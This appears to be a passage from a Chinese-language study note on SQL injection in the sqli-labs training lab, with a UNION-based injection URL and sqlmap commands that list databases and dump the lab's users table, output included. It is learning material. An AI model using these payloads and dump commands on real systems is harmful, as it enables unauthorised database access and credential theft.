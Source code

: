   3. **避免编码问题**：直接使用字符可能在某些环境中受到限制或者被过滤掉，使用十六进制编码可以更好地绕过这些限制，使得攻击更加稳定和通用。

  所以，在这个SQL注入示例中，`0x3a` 用于将 `username` 和 `password` 字段连接起来，并以 `:` 作为分隔符，这样可以在结果中清晰地看到每个用户名和密码的对应关系。

  ```http
  http://192.168.77.131/master/Less-1/?id=-1'union select 1,group_concat(concat_ws(0x3a,username,password)),3 from security.users --+
  ```

  ![image-20240819193920731](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819193920731.png)

### 使用sqlmap(不建议使用,只是想把知识关联起来)

- cmd执行``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" --dbs``显示数据库

![image-20240819194143079](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819194143079.png)

![image-20240819194242489](C:\Users\24937\Desktop\学习\笔记\assets\image-20240819194242489.png)

- ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security --tables``显示表名

```cmd
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

- ``sqlmap -u "http://192.168.77.131/master/Less-1/?id=1" -D security -T users -C username,password --dump`` 导出数据库

```cmd
Table: users
[13 entries]
+----------+------------+
| username | password   |
+----------+------------+
| Dumb     | Dumb       |
| Angelina | I-kill-you |
| Dummy    | p@ssword   |
| secure   | crappy     |
| stupid   | stupidity  |
| superman | genious    |
| batman   | mob!le     |
| admin    | admin      |
| admin1   | admin1     |
| admin2   | admin2     |
| admin3   | admin3     |
| dhakkan  | dumbo      |
| admin4   | admin4     |
+----------+------------+
```
